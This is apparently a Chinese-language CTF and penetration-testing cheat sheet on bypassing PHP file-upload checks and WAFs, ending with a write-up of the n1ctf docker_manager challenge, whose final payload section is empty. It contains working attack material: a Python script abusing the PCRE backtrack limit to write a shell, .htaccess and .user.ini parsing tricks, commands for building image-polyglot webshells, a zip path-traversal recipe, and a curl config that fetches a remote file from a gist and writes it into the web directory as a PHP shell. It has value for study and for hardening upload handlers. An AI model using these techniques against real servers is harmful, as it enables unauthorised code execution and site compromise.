

[TOC]


# 0x01 php文件上传

## 1. 前端检查

前端对文件后缀进行检查，该种通过抓包修改数据包即可解决

## 2. 文件名检查


### 2.1 大小写绕过

在windows下，可以将后缀写为pHp


### 2.2 unicode

当目标存在json_decode且检查在json_decode之前,可以将php写为\u0070hp


### 2.3 php3457

该项为apache专属

关键点在`/etc/apache2/mods-available/php5.6.conf`这个文件，满足`.+\.ph(p[3457]?|t|tml)$`，都会被当作php文件解析。在apache2目录下`grep -r x-httpd-php /etc/apache2`找到对应文件就能知道解析哪些后缀

[](https://img2020.cnblogs.com/blog/1309874/202004/1309874-20200405194028042-1566007846.png)


### 2.4 利用正则回溯pcre限制

pcre默认限制为100w

参考文章：[PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

有如下场景


```php
<?php
if(!preg_match('/.+?ph/is',$_POST['n']))
file_put_contents($_POST['n'],$_POST['s']);
```

可利用如下exp解决


```
import requests

data= {'n':"php://filter/write=convert.base64-decode/"+'/'*1000000+'/resource=shell.php','s':"PD9waHAgcGhwaW5mbygpPz4="}

print (requests.post('http://127.0.0.1',data=data).text)
```


### 2.5 各种后缀


## 3. 请求头检查：content-type，MIME类型

将php文件的`content-type:application/octet-stream`修改为`image/png`等就可以

更多content-type：可以查看https://tool.oschina.net/commons/

| 文件扩展名                          | Content-Type(Mime-Type)                 | 文件扩展名 | Content-Type(Mime-Type)             |
| :---------------------------------- | :-------------------------------------- | :--------- | :---------------------------------- |
| .*（ 二进制流，不知道下载文件类型） | application/octet-stream                | .tif       | image/tiff                          |
| .001                                | application/x-001                       | .301       | application/x-301                   |
| .323                                | text/h323                               | .906       | application/x-906                   |
| .907                                | drawing/907                             | .a11       | application/x-a11                   |
| .acp                                | audio/x-mei-aac                         | .ai        | application/postscript              |
| .aif                                | audio/aiff                              | .aifc      | audio/aiff                          |
| .aiff                               | audio/aiff                              | .anv       | application/x-anv                   |
| .asa                                | text/asa                                | .asf       | video/x-ms-asf                      |
| .asp                                | text/asp                                | .asx       | video/x-ms-asf                      |
| .au                                 | audio/basic                             | .avi       | video/avi                           |
| .awf                                | application/vnd.adobe.workflow          | .biz       | text/xml                            |
| .bmp                                | application/x-bmp                       | .bot       | application/x-bot                   |
| .c4t                                | application/x-c4t                       | .c90       | application/x-c90                   |
| .cal                                | application/x-cals                      | .cat       | application/vnd.ms-pki.seccat       |
| .cdf                                | application/x-netcdf                    | .cdr       | application/x-cdr                   |
| .cel                                | application/x-cel                       | .cer       | application/x-x509-ca-cert          |
| .cg4                                | application/x-g4                        | .cgm       | application/x-cgm                   |
| .cit                                | application/x-cit                       | .class     | java/*                              |
| .cml                                | text/xml                                | .cmp       | application/x-cmp                   |
| .cmx                                | application/x-cmx                       | .cot       | application/x-cot                   |
| .crl                                | application/pkix-crl                    | .crt       | application/x-x509-ca-cert          |
| .csi                                | application/x-csi                       | .css       | text/css                            |
| .cut                                | application/x-cut                       | .dbf       | application/x-dbf                   |
| .dbm                                | application/x-dbm                       | .dbx       | application/x-dbx                   |
| .dcd                                | text/xml                                | .dcx       | application/x-dcx                   |
| .der                                | application/x-x509-ca-cert              | .dgn       | application/x-dgn                   |
| .dib                                | application/x-dib                       | .dll       | application/x-msdownload            |
| .doc                                | application/msword                      | .dot       | application/msword                  |
| .drw                                | application/x-drw                       | .dtd       | text/xml                            |
| .dwf                                | Model/vnd.dwf                           | .dwf       | application/x-dwf                   |
| .dwg                                | application/x-dwg                       | .dxb       | application/x-dxb                   |
| .dxf                                | application/x-dxf                       | .edn       | application/vnd.adobe.edn           |
| .emf                                | application/x-emf                       | .eml       | message/rfc822                      |
| .ent                                | text/xml                                | .epi       | application/x-epi                   |
| .eps                                | application/x-ps                        | .eps       | application/postscript              |
| .etd                                | application/x-ebx                       | .exe       | application/x-msdownload            |
| .fax                                | image/fax                               | .fdf       | application/vnd.fdf                 |
| .fif                                | application/fractals                    | .fo        | text/xml                            |
| .frm                                | application/x-frm                       | .g4        | application/x-g4                    |
| .gbr                                | application/x-gbr                       | .          | application/x-                      |
| .gif                                | image/gif                               | .gl2       | application/x-gl2                   |
| .gp4                                | application/x-gp4                       | .hgl       | application/x-hgl                   |
| .hmr                                | application/x-hmr                       | .hpg       | application/x-hpgl                  |
| .hpl                                | application/x-hpl                       | .hqx       | application/mac-binhex40            |
| .hrf                                | application/x-hrf                       | .hta       | application/hta                     |
| .htc                                | text/x-component                        | .htm       | text/html                           |
| .html                               | text/html                               | .htt       | text/webviewhtml                    |
| .htx                                | text/html                               | .icb       | application/x-icb                   |
| .ico                                | image/x-icon                            | .ico       | application/x-ico                   |
| .iff                                | application/x-iff                       | .ig4       | application/x-g4                    |
| .igs                                | application/x-igs                       | .iii       | application/x-iphone                |
| .img                                | application/x-img                       | .ins       | application/x-internet-signup       |
| .isp                                | application/x-internet-signup           | .IVF       | video/x-ivf                         |
| .java                               | java/*                                  | .jfif      | image/jpeg                          |
| .jpe                                | image/jpeg                              | .jpe       | application/x-jpe                   |
| .jpeg                               | image/jpeg                              | .jpg       | image/jpeg                          |
| .jpg                                | application/x-jpg                       | .js        | application/x-javascript            |
| .jsp                                | text/html                               | .la1       | audio/x-liquid-file                 |
| .lar                                | application/x-laplayer-reg              | .latex     | application/x-latex                 |
| .lavs                               | audio/x-liquid-secure                   | .lbm       | application/x-lbm                   |
| .lmsff                              | audio/x-la-lms                          | .ls        | application/x-javascript            |
| .ltr                                | application/x-ltr                       | .m1v       | video/x-mpeg                        |
| .m2v                                | video/x-mpeg                            | .m3u       | audio/mpegurl                       |
| .m4e                                | video/mpeg4                             | .mac       | application/x-mac                   |
| .man                                | application/x-troff-man                 | .math      | text/xml                            |
| .mdb                                | application/msaccess                    | .mdb       | application/x-mdb                   |
| .mfp                                | application/x-shockwave-flash           | .mht       | message/rfc822                      |
| .mhtml                              | message/rfc822                          | .mi        | application/x-mi                    |
| .mid                                | audio/mid                               | .midi      | audio/mid                           |
| .mil                                | application/x-mil                       | .mml       | text/xml                            |
| .mnd                                | audio/x-musicnet-download               | .mns       | audio/x-musicnet-stream             |
| .mocha                              | application/x-javascript                | .movie     | video/x-sgi-movie                   |
| .mp1                                | audio/mp1                               | .mp2       | audio/mp2                           |
| .mp2v                               | video/mpeg                              | .mp3       | audio/mp3                           |
| .mp4                                | video/mpeg4                             | .mpa       | video/x-mpg                         |
| .mpd                                | application/vnd.ms-project              | .mpe       | video/x-mpeg                        |
| .mpeg                               | video/mpg                               | .mpg       | video/mpg                           |
| .mpga                               | audio/rn-mpeg                           | .mpp       | application/vnd.ms-project          |
| .mps                                | video/x-mpeg                            | .mpt       | application/vnd.ms-project          |
| .mpv                                | video/mpg                               | .mpv2      | video/mpeg                          |
| .mpw                                | application/vnd.ms-project              | .mpx       | application/vnd.ms-project          |
| .mtx                                | text/xml                                | .mxp       | application/x-mmxp                  |
| .net                                | image/pnetvue                           | .nrf       | application/x-nrf                   |
| .nws                                | message/rfc822                          | .odc       | text/x-ms-odc                       |
| .out                                | application/x-out                       | .p10       | application/pkcs10                  |
| .p12                                | application/x-pkcs12                    | .p7b       | application/x-pkcs7-certificates    |
| .p7c                                | application/pkcs7-mime                  | .p7m       | application/pkcs7-mime              |
| .p7r                                | application/x-pkcs7-certreqresp         | .p7s       | application/pkcs7-signature         |
| .pc5                                | application/x-pc5                       | .pci       | application/x-pci                   |
| .pcl                                | application/x-pcl                       | .pcx       | application/x-pcx                   |
| .pdf                                | application/pdf                         | .pdf       | application/pdf                     |
| .pdx                                | application/vnd.adobe.pdx               | .pfx       | application/x-pkcs12                |
| .pgl                                | application/x-pgl                       | .pic       | application/x-pic                   |
| .pko                                | application/vnd.ms-pki.pko              | .pl        | application/x-perl                  |
| .plg                                | text/html                               | .pls       | audio/scpls                         |
| .plt                                | application/x-plt                       | .png       | image/png                           |
| .png                                | application/x-png                       | .pot       | application/vnd.ms-powerpoint       |
| .ppa                                | application/vnd.ms-powerpoint           | .ppm       | application/x-ppm                   |
| .pps                                | application/vnd.ms-powerpoint           | .ppt       | application/vnd.ms-powerpoint       |
| .ppt                                | application/x-ppt                       | .pr        | application/x-pr                    |
| .prf                                | application/pics-rules                  | .prn       | application/x-prn                   |
| .prt                                | application/x-prt                       | .ps        | application/x-ps                    |
| .ps                                 | application/postscript                  | .ptn       | application/x-ptn                   |
| .pwz                                | application/vnd.ms-powerpoint           | .r3t       | text/vnd.rn-realtext3d              |
| .ra                                 | audio/vnd.rn-realaudio                  | .ram       | audio/x-pn-realaudio                |
| .ras                                | application/x-ras                       | .rat       | application/rat-file                |
| .rdf                                | text/xml                                | .rec       | application/vnd.rn-recording        |
| .red                                | application/x-red                       | .rgb       | application/x-rgb                   |
| .rjs                                | application/vnd.rn-realsystem-rjs       | .rjt       | application/vnd.rn-realsystem-rjt   |
| .rlc                                | application/x-rlc                       | .rle       | application/x-rle                   |
| .rm                                 | application/vnd.rn-realmedia            | .rmf       | application/vnd.adobe.rmf           |
| .rmi                                | audio/mid                               | .rmj       | application/vnd.rn-realsystem-rmj   |
| .rmm                                | audio/x-pn-realaudio                    | .rmp       | application/vnd.rn-rn_music_package |
| .rms                                | application/vnd.rn-realmedia-secure     | .rmvb      | application/vnd.rn-realmedia-vbr    |
| .rmx                                | application/vnd.rn-realsystem-rmx       | .rnx       | application/vnd.rn-realplayer       |
| .rp                                 | image/vnd.rn-realpix                    | .rpm       | audio/x-pn-realaudio-plugin         |
| .rsml                               | application/vnd.rn-rsml                 | .rt        | text/vnd.rn-realtext                |
| .rtf                                | application/msword                      | .rtf       | application/x-rtf                   |
| .rv                                 | video/vnd.rn-realvideo                  | .sam       | application/x-sam                   |
| .sat                                | application/x-sat                       | .sdp       | application/sdp                     |
| .sdw                                | application/x-sdw                       | .sit       | application/x-stuffit               |
| .slb                                | application/x-slb                       | .sld       | application/x-sld                   |
| .slk                                | drawing/x-slk                           | .smi       | application/smil                    |
| .smil                               | application/smil                        | .smk       | application/x-smk                   |
| .snd                                | audio/basic                             | .sol       | text/plain                          |
| .sor                                | text/plain                              | .spc       | application/x-pkcs7-certificates    |
| .spl                                | application/futuresplash                | .spp       | text/xml                            |
| .ssm                                | application/streamingmedia              | .sst       | application/vnd.ms-pki.certstore    |
| .stl                                | application/vnd.ms-pki.stl              | .stm       | text/html                           |
| .sty                                | application/x-sty                       | .svg       | text/xml                            |
| .swf                                | application/x-shockwave-flash           | .tdf       | application/x-tdf                   |
| .tg4                                | application/x-tg4                       | .tga       | application/x-tga                   |
| .tif                                | image/tiff                              | .tif       | application/x-tif                   |
| .tiff                               | image/tiff                              | .tld       | text/xml                            |
| .top                                | drawing/x-top                           | .torrent   | application/x-bittorrent            |
| .tsd                                | text/xml                                | .txt       | text/plain                          |
| .uin                                | application/x-icq                       | .uls       | text/iuls                           |
| .vcf                                | text/x-vcard                            | .vda       | application/x-vda                   |
| .vdx                                | application/vnd.visio                   | .vml       | text/xml                            |
| .vpg                                | application/x-vpeg005                   | .vsd       | application/vnd.visio               |
| .vsd                                | application/x-vsd                       | .vss       | application/vnd.visio               |
| .vst                                | application/vnd.visio                   | .vst       | application/x-vst                   |
| .vsw                                | application/vnd.visio                   | .vsx       | application/vnd.visio               |
| .vtx                                | application/vnd.visio                   | .vxml      | text/xml                            |
| .wav                                | audio/wav                               | .wax       | audio/x-ms-wax                      |
| .wb1                                | application/x-wb1                       | .wb2       | application/x-wb2                   |
| .wb3                                | application/x-wb3                       | .wbmp      | image/vnd.wap.wbmp                  |
| .wiz                                | application/msword                      | .wk3       | application/x-wk3                   |
| .wk4                                | application/x-wk4                       | .wkq       | application/x-wkq                   |
| .wks                                | application/x-wks                       | .wm        | video/x-ms-wm                       |
| .wma                                | audio/x-ms-wma                          | .wmd       | application/x-ms-wmd                |
| .wmf                                | application/x-wmf                       | .wml       | text/vnd.wap.wml                    |
| .wmv                                | video/x-ms-wmv                          | .wmx       | video/x-ms-wmx                      |
| .wmz                                | application/x-ms-wmz                    | .wp6       | application/x-wp6                   |
| .wpd                                | application/x-wpd                       | .wpg       | application/x-wpg                   |
| .wpl                                | application/vnd.ms-wpl                  | .wq1       | application/x-wq1                   |
| .wr1                                | application/x-wr1                       | .wri       | application/x-wri                   |
| .wrk                                | application/x-wrk                       | .ws        | application/x-ws                    |
| .ws2                                | application/x-ws                        | .wsc       | text/scriptlet                      |
| .wsdl                               | text/xml                                | .wvx       | video/x-ms-wvx                      |
| .xdp                                | application/vnd.adobe.xdp               | .xdr       | text/xml                            |
| .xfd                                | application/vnd.adobe.xfd               | .xfdf      | application/vnd.adobe.xfdf          |
| .xhtml                              | text/html                               | .xls       | application/vnd.ms-excel            |
| .xls                                | application/x-xls                       | .xlw       | application/x-xlw                   |
| .xml                                | text/xml                                | .xpl       | audio/scpls                         |
| .xq                                 | text/xml                                | .xql       | text/xml                            |
| .xquery                             | text/xml                                | .xsd       | text/xml                            |
| .xsl                                | text/xml                                | .xslt      | text/xml                            |
| .xwd                                | application/x-xwd                       | .x_b       | application/x-x_b                   |
| .sis                                | application/vnd.symbian.install         | .sisx      | application/vnd.symbian.install     |
| .x_t                                | application/x-x_t                       | .ipa       | application/vnd.iphone              |
| .apk                                | application/vnd.android.package-archive | .xap       | application/x-silverlight-app       |


## 4. 解析漏洞、语言特性及漏洞

### 4.1 apache2

#### 4.1.1 多后缀解析漏洞

在Apache 2.0.x <= 2.0.59，Apache 2.2.x <= 2.2.17，Apache 2.2.2 <= 2.2.8中Apache 解析文件的规则是从右到左开始判断解析,如果后缀名为不可识别文件解析,就再往左判断。

如1.php.abc，因apache2不识别.abc后缀，所以向前解析php


#### 4.1.2 .htaccess

Apache提供了一种很方便的、可作用于当前目录及其子目录的配置文件——.htaccess（分布式配置文件）

当站点配置上标有AllowOverride All，并且rewrite_mod开启时，.htaccess文件就会生效。

(1) Options

列目录


```
Options +Indexes 
```

可以执行cgi程序


```
Options ExecCGI 
```


解析cgi的参考链接https://www.freebuf.com/vuls/218495.html

(2) AddType application/x-httpd-php abc

当在.htaccess中写入AddType application/x-httpd-php abc时，就会把1.abc当作php文件解析

(3) php_value、php_admin


```
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
php_value auto_append_file .htaccess
+ADw?php phpinfo()+Ads
```

UTF-7、UTF-16、UTF-32皆可

任意文件下载


```
php_flag engine 0
```

除此之外还可以这样书写.htaccess

[](https://img2020.cnblogs.com/blog/1309874/202005/1309874-20200504211115711-1492100009.png)


#### 4.1.3 CVE-2017-15715

利用在上传文件时，文件名之后添加一个\x0a来绕过黑名单上传的限制

比如，目标存在一个上传的逻辑：

```php
<?php
if(isset($_FILES['file'])) {
    $name = basename($_POST['name']);
    $ext = pathinfo($name,PATHINFO_EXTENSION);
    if(in_array($ext, ['php', 'php3', 'php4', 'php5', 'phtml', 'pht'])) {
        exit('bad file');
    }
    move_uploaded_file($_FILES['file']['tmp_name'], './' . $name);
}
```

可见，这里用到了黑名单，如果发现后缀在黑名单中，则进行拦截。

然后，我们用docker启动一个默认的Apache PHP（Apache版本在2.4.0到2.4.29即可）：

```sh
docker run -d -p 8080:80 --name apache php:5.5-apache
```

将上述代码放置在容器内的`/var/www/html`目录下，设置好写权限，即可进行测试。


正常上传php文件，被拦截：


可以上传1.php.xxx，但是不解析，说明老的Apache解析漏洞不存在：


我们利用CVE-2017-15715，上传一个包含换行符的文件。注意，只能是`\x0A`，不能是`\x0D\x0A`，所以我们用hex功能在1.php后面添加一个`\x0A`：


然后访问`/1.php%0A`，即可发现已经成功getshell：


### 4.2 nginx

#### 4.2.1 CVE-2013-4547

参考https://github.com/vulhub/vulhub/tree/master/nginx/CVE-2013-4547

即上传一个1.gif，然后访问1.gif[0x20][0x00].php([0x20][0x00]为空格和\0不需要url编码)，1.gif会被当作php解析


#### 4.2.2 php-cgi漏洞

在php配置文件中，开启了cgi.fix_pathinfo，导致图片马1.jpg可以通过访问1.jpg/.php解析成php


#### 4.2.3 .user.ini

当使用CGI／FastCGI 来解析php时，php会优先搜索目录下所有的.ini文件，并应用其中的配置。类似于apache的.htaccess，但语法与.htacces不同，语法与php.ini一致。因nginx实际上只是起到转发的作用，实际解析一般为php-fpm或fastcgi来解析，所以在.user.ini中写如auto_prepend_file=test.jpg，之后上传.user.ini与test.jpg，过一段时间等待.user.ini被加载后，会导致每个php文件解析之前先将test.jpg当作php解析。


### 4.3 php

#### 4.3.1 00截断

php 版本为5.2.x，在上传文件时在文件后名后追加\0即可让上传的文件，最终变为以.php结尾的文件


#### 4.3.2 fopen特性


```php
<?php
$filename='shell.php/.';
$content="<?php phpinfo();";
$f = fopen($filename, 'w');
    fwrite($f, $content);
    fclose($f);
?> //会在当前目录生成shell.php
```


#### 4.3.3 tomcat用于上传绕过的有三种,不过限制在windows操作系统下。

1. xxx.jsp/
2. xxx.jsp%20
3. xxx.jsp::$DATA


## 5. 文件内容检查：

### 5.1 绕过<?php,<?=

https://www.php.net/manual/zh/language.basic-syntax.phpmode.php

[](https://img2020.cnblogs.com/blog/1309874/202004/1309874-20200405195355537-30467937.png)

其中第2种在php7种不可以使用，在php5中可以使用


### 5.2 绕过[a-zA-Z0-9]

无字母数字webshell

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

无字母数字webshell之提高篇

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

### 5.3 绕过;(分号)


```
<?=phpinfo()?>
```


### 5.4 exif_imagetype()

该函数为获取图片的类型，常用于检测上传文件的类型

（1）可以使用在文件头添加魔术字节GIF89a即可绕过
（2）使用copy命令将木马放在一个正常文件之后

```sh
在cmd中输入命令 copy /b test.png +muma.php ccc.png //伪造头部

其中test.png为 原始图片 ，此命令将 test.png 和muma.php 合成，重新生成ccc.png
```


### 5.5 get_imagesize()

该函数为获取图片的长宽，常用于检测上传文件的类型
（1）可以在文件之前添加

```
#define width 1337                          
#define height 1337
```

即可绕过


### 5.6 二次渲染

https://github.com/hxer/imagecreatefrom-/tree/master/
https://www.freebuf.com/articles/web/54086.html
http://www.vuln.cn/6411


## 6. 多文件上传

当服务器支持多文件上传，但只对上传的第一个进行过滤时，可以一次上传多个文件进行绕过


## 7. 文件上传解压

### 7.1 tar压缩包

linux环境


```
ln -s / 1.jpg 会在当前目录下生成一个名为1.jpg的软链接
tar cf 1.tar 1.jpg
上传到服务器，访问1.jpg，就可以在服务器中漫游了
也可以利用这个办法绕过php_flag engine off
```

例子：https://250.ac.cn/2019/11/09/2019-湖湘杯-web部分-WriteUp/#预期解

### 7.2 zip压缩包

如果服务器对上传的zip文件直接解压的话，就可以构筑这样一个文件来绕过
环境：/var/www/html/upload目录不解析php文件，解压文件默认在upload下


```
新建1234.php，内容任意
将1234.php压缩为1234.zip文件
使用hxd或者010editor等16进制编辑器编辑1234.zip文件，将所有字符串1234.php替换为../1.php（../1共四位所以使用1234为文件名，可根据需求修改），保存。
将修改后的1234.zip上传，经过服务器解压，会在/var/www/html下生成一个1.php
```

## 8. 条件竞争

在一些上传场景中，上传的文件上传成功后会被立马删除，导致无法访问上传的文件。所以从上传成功到被删除的这段时间大概（几百ms）存在一个空档，我们利用这段空档可以访问到上传的文件。但是手工操作肯定是来不及，我们写脚本操作也来不及。所以可以通过不断的上传文件，并不断的访问到达目的。


## 9. 其他情况

### 9.1 rce


```
imagick rce:CVE-2016–3714
```

### file_put_contents

```
file_put_contents($filename,$content);
```

filename参数支持以url形式写入，支持php伪协议，支持远程读取文件

具体参考：

[file_put_content和死亡·杂糅代码之缘](https://xz.aliyun.com/t/8163)


## 10. 系统特性

 Windows下文件名不区分大小写，Linux下文件名区分

Windows下ADS流特性，导致上传文件xxx.php::$DATA = xxx.php
Windows下文件名结尾加入`.`,`空格`,`<`,·`>`,`>>>`,`0x81-0xff`等字符，最终生成的文件均被windows忽略。


# 0x02 WAF绕过


## desktop.ini污染

```ini
��
[.ShellClassInfo]
LocalizedResourceName=@%SystemRoot%\system32\shell32.dll,-21770
IconResource=%SystemRoot%\system32\imageres.dll,-112
IconFile=%SystemRoot%\system32\shell32.dll
IconIndex=-235
```


## 宝塔waf绕过


### 文件名绕过：回车

加入回车符

拦截


一个回车键绕过限制


### 文件内容绕过：垃圾填充


### 文件内容绕过：desktop.ini污染

```ini
��
[.ShellClassInfo]
LocalizedResourceName=@%SystemRoot%\system32\shell32.dll,-21770
IconResource=%SystemRoot%\system32\imageres.dll,-112
IconFile=%SystemRoot%\system32\shell32.dll
IconIndex=-235
```


# 0x03 proc cmdline 利用

每一次 php 执行 curl 命令的时候都会有一个 pid，这个 pid 在 /proc 下会有相关文件，在 `/proc/<pid>/cmdline `里会有运行时的命令，如果我们能够将恶意参数写入这个文件，就相当于变相上。


> 我们经常在CTF比赛里，或者实际渗透里，使用到`/proc`这个目录，比如常常利用`/proc/self/cwd`来访问进程中的文件，使用`/proc/self/environ`读取系统的环境变量等
>
> 实际上我们在任何的GUN/Linux操作系统里，都能找到这个目录，并且里面存在大量目录
> [](https://patrilic.top/浅谈 Linux系统 Proc.resources/70DE7AC6-D2C4-42A8-8A78-3F631B6515A6.png)f48d8c5a7f26e7be272c7c36a0224e65
> 但是如果，我们使用 `ls -al`来查看
> [](https://patrilic.top/浅谈 Linux系统 Proc.resources/F0A39E32-2167-47D3-B6B7-C76BD67C7F3D.png)e39161263565785f4d27eea36ccec527
>
> 可以看到绝大部分文件大小为0
>
> 但是我们可以使用cat命令获取其中的大量信息
> [](https://patrilic.top/浅谈 Linux系统 Proc.resources/C6AC528D-6694-4F8C-A7D8-DD139C74A308.png)
>
> 
>
> 为什么0字节还能存有内容呢
>
> 
>
> 这里提到一个概念：文件系统
> 维基百科->[https://zh.wikipedia.org/wiki/Procfs](https://zh.wikipedia.org/zh-hans/文件系统)
>
> 
>
> 而proc在Unix里常常被称为procfs -> proc file system
> 它包含一个**伪文件系统**（启动时动态生成的文件系统），用于通过内核访问进程信息。这个文件系统通常被挂载到 /proc 目录。由于 /proc 不是一个真正的文件系统，它也就不占用存储空间，只是占用有限的内存。
>
> 
>
> 所以说，其实/proc目录更多的是起到一个类似于接口的作用，当我们使用cat命令获取时，它会从内存中获取信息，来返回给用户，**而目录中的数字，其实就是PID号。**
>
> - /proc/$PID/cmdline 启动进程时执行的命令
> - /proc/$PID/environ 该文件保存进程的环境变量
> - /proc/$PID/cwd 一个符号连接, 指向进程当前的工作目录
> - /proc/$PID/exe 一个符号连接, 指向被执行的二进制代码
> - /proc/$PID/fd 进程所打开的每个文件都有一个符号连接在该子目录里, 以文件描述符命名, 这个名字实际上是指向真正的文件的符号连接
> - /proc/$PID/attr 进程的属性


## 例题

### n1ctf docker_manager

```php
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <!--<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.8.0/css/bulma.min.css">-->
    <link rel="stylesheet" href="css/bulma.min.css">
    <!--<script defer src="https://use.fontawesome.com/releases/v5.3.1/js/all.js"></script>-->
    <script defer src="js/fa.js"></script>
    <title>Docker Manager</title>
  </head>
  <body>
    <section class="section">
      <div class="container">
        <h1 class="title">Docker Manager</h1>
        <figure class="image is-128x128">
          
        </figure>
        <p>
          <span class="has-text-primary has-text-weight-bold">Result:</span>
<?php

$request = $_REQUEST;
function grab_request_var($varname, $default = "")
{
    global $request;
    $v = $default;
    if (isset($request[$varname])) {
        $v = $request[$varname];
    }
    return $v;
}

$mode = grab_request_var('mode', 'containers');
if (!in_array($mode, array('containers', 'networks'))) {
  $mode = 'containers';
}

$objects = array();

$cert = escapeshellarg(grab_request_var('cert', ''));
if (!empty($cert) && $cert !== "''") {
  $cert = " --cert=" . $cert; 
}
else {
  $cert = "";
}

$key = escapeshellarg(grab_request_var('key', ''));
if (!empty($key) && $key !== "''") {
  $key = " --key=" . $key; 
}
else {
  $key = "";
}

$cacert = escapeshellarg(grab_request_var('cacert', ''));
if (!empty($cacert) && $cacert !== "''") {
  $cacert = " --cacert=" . $cacert; 
}
else {
  $cacert = "";
}

$host_addr = grab_request_var('host', '');

if (!$host_addr) {
  echo json_encode("error_host");
  exit();
}
if (substr($host_addr, -1) !== '/') {
  $host_addr .= '/';
}


if ($mode === 'containers')
  $mode .= '/json';
else 
  $mode .= '/';

$host_addr .= $mode . '?all=true';
$host_addr = escapeshellarg($host_addr);

$cmd = 'curl --connect-timeout 10 ' . $host_addr . ' -g ' . $cert . $key . $cacert;
$output = array();
$ret = 0;
exec($cmd, $output, $ret);

if ($ret > 0) {
  echo json_encode("error_curl");
  exit();
}

$output = implode("\n", $output);

$output = json_decode($output, true);

if (isset($output['message'])) {
  $output['cmd'] = $cmd;
  echo json_encode($output);
  exit();
}

foreach($output as $item) {

  preg_replace("/[^a-f0-9]/", '', $item['Id']);
  $name_or_id = $item['Id'];

  if (array_key_exists('Names', $item) && is_array($item['Names'])) {
    preg_replace("/[^a-z_]/", '', $item['Names'][0]);
    $name_or_id = $item['Names'][0];
  }
  else if (array_key_exists('Name', $item)) {
    preg_replace("/[^a-z_]/", '', $item['Name']);
    $name_or_id = $item['Name'];  
  }

  $objects[] = $name_or_id;
}
echo json_encode($objects);
exit();
?>
        </p>
      </div>
    </section>
  </body>
</html>
```


view.php 中写明逻辑，将输入的参数利用 escapeshellarg 转义后拼接执行。


\2. 首先来测试一下能不能进行参数逃逸。

测试几种姿势都不行，最后发现 %00 能进行截断，可以把后面的内容进行截断。

http://81893acd-e5b6-4fa8-9b92-90ef49877eac.node3.buuoj.cn/view.php?host=http://http.requestbin.buuoj.cn/tz894atz

[http://81893acd-e5b6-4fa8-9b92-90ef49877eac.node3.buuoj.cn/view.php?host=http://http.requestbin.buuoj.cn/tz894atz%00](http://81893acd-e5b6-4fa8-9b92-90ef49877eac.node3.buuoj.cn/view.php?host=http://http.requestbin.buuoj.cn/tz894atz)

截断效果如下。


那么就代表这里 host_addr 这个参数我们是完全可控的了。


即便它因为 escapeshellarg 两边被加上了单引号，但我们可以利用它来怼上自己想要的参数。


可以看到，对于这种单字母的参数，我们在两边加不加引号都不影响其执行。


正因为这个 host_addr 所在的位置前面没有字符，后面可以利用 %00 来截断，我们可以完全控制这里的数据，我们可以插入单字母参数，使其发挥作用。

原本应该被作为请求地址处理的数据被作为参数项处理，造成了逃逸。


3.那么我们可以来看看该利用哪个参数进行利用。

看到 -K 参数，可以读入一个配置文件。


到官网查找到相关文档。

https://ec.haxx.se/cmdline/cmdline-configfile

进一步查找，发现更具体的用法。

https://curl.haxx.se/docs/manpage.html

可以利用 url 访问一个地址，再用 output 输出到相应的文件里。


这样我们就可以不用想办法逃逸参数也可以写入 webshell 到网站目录下然后 getshell 了。

构造出来的配置文件如下：

```
url="https://gist.githubusercontent.com/glzjin/2c81bd6f1ef880f593ed18157400bbcb/raw/0f039d674ddf0fe026e87bf3faa56ca9a187b10f/n1ctf_docker_manager"
output="img/glzjin.php"
```


4.那么我们如何把这个配置文件给写到服务器上呢？利用 cmdline，每一次 php 执行 curl 命令的时候都会有一个 pid，这个 pid 在 /proc 下会有相关文件，在 /proc/<pid>/cmdline 里会有运行时的命令，我们利用带进去的参数产生的 cmdline 文件作为配置文件，是不是就相当于上传上去了呢？

但这样做进程一运行就会很快结束，无法驻留供我们长时间使用，我们有其他的办法可以让这个进程一直存在从而让 cmdline 文件一直存在呢？我们利用 curl 的 -K 参数去读取 /dev/urandom 时可以造成 curl 一直运行，因为其一直在读取配置文件，读不到头，进程则一直存在。这里除了前面的参数还有后面许许多多参数比如 cacert 等可控我们控制，我们利用这些来写入内容即可。


#### payload:

```
